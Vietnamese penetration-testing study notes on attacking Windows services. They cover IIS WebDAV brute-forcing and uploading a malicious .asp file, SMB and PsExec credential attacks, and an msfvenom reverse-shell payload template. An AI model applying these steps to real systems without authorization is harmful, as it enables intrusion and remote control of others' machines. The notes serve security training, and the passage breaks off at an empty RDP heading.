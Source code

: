# Windows Attacks

## Windows Vulnerabilities

Tất cả các hệ điều hành Windows đều có điểm tương đồng về mô hình phát triển.

- Ngôn ngữ lập trình C - dẫn đến tràn bộ đệm, thực thi mã tùy ý, v.v.

- Không áp dụng bất kỳ biện pháp bảo mật mặc định nào - phải được công ty xử lý một cách có hệ thống

- Bản vá của Microsoft không được thực hiện ngay lập tức hoặc các phiên bản đã hết hỗ trợ/bản vá

## Vulns Types

| Lỗ hổng (Vulnerability)         | Mô tả (Description)  |
| ------------------------------- | --------------------------------------------------- |
| **Information Disclosure**      | Cho phép kẻ tấn công truy cập vào **dữ liệu bí mật hoặc nhạy cảm**        |
| **Buffer Overflows**            | Lỗi lập trình cho phép kẻ tấn công **ghi dữ liệu vượt quá bộ đệm được cấp phát**, dẫn đến **ghi dữ liệu độc hại vào vùng nhớ khác**                         |
| **Remote Code Execution (RCE)** | Cho phép kẻ tấn công **thực thi mã từ xa** trên mục tiêu              |
| **Privilege Escalation**        | Cho phép kẻ tấn công **tăng quyền hạn** sau khi đã xâm nhập ban đầu      |
| **Denial of Service (DoS)**     | Cho phép kẻ tấn công **làm tràn tài nguyên** (CPU, RAM, mạng, ...) của mục tiêu, khiến **hệ thống ngừng hoạt động hoặc không phục vụ được người dùng khác** |


# Windows Exploitation

Windows có nhiều dịch vụ và giao thức gốc tiêu chuẩn được cấu hình hoặc không được cấu hình trên máy chủ. Khi hoạt động, chúng cung cấp cho kẻ tấn công một vectơ truy cập.

| Giao thức/Dịch vụ (Protocol/Service)                | Cổng (Ports)                                | Mục đích (Purpose)                                                                                                                          |
| --------------------------------------------------- | ------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- |
| **Microsoft IIS (Internet Information Services)**   | TCP **80/443**                              | Máy chủ web của Microsoft dành cho Windows, dùng để **lưu trữ các ứng dụng web**                                                            |
| **WebDAV (Web Distributed Authoring & Versioning)** | TCP **80/443**                              | Phần mở rộng của HTTP cho phép client **sao chép, di chuyển, xóa và cập nhật tệp** trên máy chủ web – biến web server thành **file server** |
| **SMB/CIFS (Server Message Block)**                 | TCP **445** / chạy trên **NetBIOS 137–139** | Giao thức **chia sẻ tệp và thiết bị ngoại vi** giữa các máy tính trong **mạng nội bộ (LAN)**                                                |
| **RDP (Remote Desktop Protocol)**                   | TCP **3389**                                | Giao thức truy cập từ xa **dạng giao diện đồ họa (GUI)** để **xác thực và điều khiển máy Windows từ xa** (mặc định **bị tắt**)              |
| **WinRM (Windows Remote Management Protocol)**      | TCP **5986/443**                            | Dùng để **truy cập và quản lý hệ thống Windows từ xa**, cho phép **thực thi lệnh từ xa**                                                    |


## IIS WebDAV

**Microsoft IIS** (Internet Information Services) - máy chủ web mở rộng độc quyền của Microsoft được phát triển để sử dụng với Windows.

- Ports: 80 (no certificate), 443 (with SSL Certificate)

- Lưu trữ trang web và ứng dụng web

- Administrative GUI để quản lý IIS

- Các trang web tĩnh và động, được phát triển bằng ASP.NET và PHP

- Hỗ trợ file extensions: `.asp`, `.aspx`, `.config`, `.php`

**WebDAV** (Web Distributed Authoring & Versioning) - một tập hợp các phần mở rộng giao thức HTTP được người dùng sử dụng để quản lý tệp trên máy chủ web từ xa.

- Web server giống như `File server`

- Chạy trên Apache hoặc IIS - cổng 80/443

- Cần thông tin xác thực (tên người dùng và mật khẩu) để kết nối máy chủ WebDAV

### WebDAV Exploitation

1. Kiểm tra xem WebDAV có được cấu hình để chạy trên máy chủ web IIS không.

2. Tấn công bằng phương pháp `brute-force` vào máy chủ WebDAV - xác định thông tin xác thực hợp lệ.

3. Sử dụng thông tin xác thực thu được để xác thực với WebDAV và tải lên mã độc hại, như tệp tin .asp, được sử dụng để thực thi các lệnh tùy ý hoặc lấy shell ngược trên mục tiêu.

### Tool

`davtest` - được sử dụng để quét, xác thực và khai thác máy chủ WebDAV bằng cách tải lên các tệp thực thi thử nghiệm cho phép thực thi lệnh trên mục tiêu. Được cài đặt sẵn trên Kali Linux và Parrot OS.

```bash
davtest -url <URL>
```

`cadaver` - hỗ trợ tải lên, tải xuống tệp, hiển thị trên màn hình, chỉnh sửa, thao tác namespaces (move/copy), tạo và xóa bộ sưu tập, thao tác thuộc tính và khóa tài nguyên. Được cài đặt sẵn trên Kali Linux và Parrot OS.

```bash
cadaver [OPTIONS] <URL>
```

`msfvenom` - một trình tạo và mã hóa tải trọng độc lập Metasploit

```bash
msfvenom -p <PAYLOAD> LHOST=<LOCAL_HOST_IP> LPORT=<PORT> -f <file_type> > shell.asp
```

## SMB

`SMB` (Server Message Block) - một giao thức chia sẻ tệp mạng, được sử dụng để chia sẻ tệp và thiết bị ngoại vi, trên Windows

- Ports: 445 (TCP), 139 (NetBIOS)

- Hai cấp độ xác thực để truy cập vào một share:

    - User Authentication - `username` & `password`
    - Share Authentication - `password`

`SAMBA` là Linux SMB mã nguồn mở (nó cho phép các hệ thống Windows truy cập vào các chia sẻ Linux)

### SMB Authentication

1. Yêu cầu xác thực từ máy khách đến máy chủ

2. Máy chủ yêu cầu máy khách mã hóa chuỗi bằng hàm băm của người dùng

3. Máy khách gửi chuỗi mã hóa đến máy chủ

4. Máy chủ kiểm tra giá trị chuỗi thực tế của người dùng đó có khớp với giá trị của máy khách không và cấp quyền truy cập. Nếu không khớp, quyền truy cập sẽ bị từ chối.

#### PsExec

một giải pháp thay thế telnet cho phép thực hiện các quy trình trên hệ thống từ xa, hoàn chỉnh với khả năng tương tác đầy đủ cho các ứng dụng bảng điều khiển, sử dụng thông tin đăng nhập của bất kỳ người dùng nào.

- Xác thực PsExec được thực hiện thông qua SMB

-  Chạy các lệnh tùy ý hoặc remote command prompt

- Các lệnh được gửi qua `CMD` (không có GUI như `RDP`)

- Tài khoản người dùng hợp pháp và mật khẩu/băm là cần thiết để có được quyền truy cập mục tiêu của Windows

#### PsExec Exploitation

1. Tận dụng nhiều kỹ thuật khác nhau, ví dụ như tấn công bằng cách dùng vũ lực để đăng nhập SMB.

2. Thu hẹp phạm vi tấn công chỉ còn các tài khoản người dùng Win phổ biến, ví dụ: Quản trị viên.

3. Sử dụng thông tin đăng nhập thu được để xác thực thông qua PsExec và thực thi lệnh hệ thống hoặc lấy shell ngược.


## RDP











